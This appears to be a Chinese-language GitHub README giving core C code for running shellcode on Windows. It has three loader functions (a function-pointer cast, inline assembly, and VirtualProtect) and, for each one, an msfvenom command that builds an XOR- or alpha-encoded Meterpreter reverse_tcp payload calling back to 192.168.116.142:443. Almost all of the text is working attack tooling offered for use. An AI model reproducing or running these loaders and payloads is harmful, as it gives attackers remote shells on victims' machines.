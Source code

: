 ### 1、执行shellcode的核心代码

(1)

```
void exec_shellcode(unsigned char *shellcode)
{
	int (*funct)();
	funct = (int (*)()) shellcode;
	(int)(*funct)();
}
```

对应生成shellcode的参数：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x86/xor -f hex -a x86 --platform Windows > sc.txt
```

(2)

```
void exec_shellcode_ASCIIMSF(unsigned char *shellcode)
{
	register unsigned char* r asm("eax");
	r=shellcode;
	asm("call *%eax;");
}
```

对应生成shellcode的参数：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x86/alpha_mixed -f hex -a x86 --platform Windows > sc.txt
```

(3)

```
void exec_shellcode64(unsigned char *shellcode)
{
	int len=strlen(shellcode);
	DWORD l=0;
	VirtualProtect(shellcode,len,PAGE_EXECUTE_READWRITE,&l);
	(* (int(*)()) shellcode)();
}
```

生成shellcode的参数：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x64/xor -f hex --platform Windows > sc.txt
```

**注：**
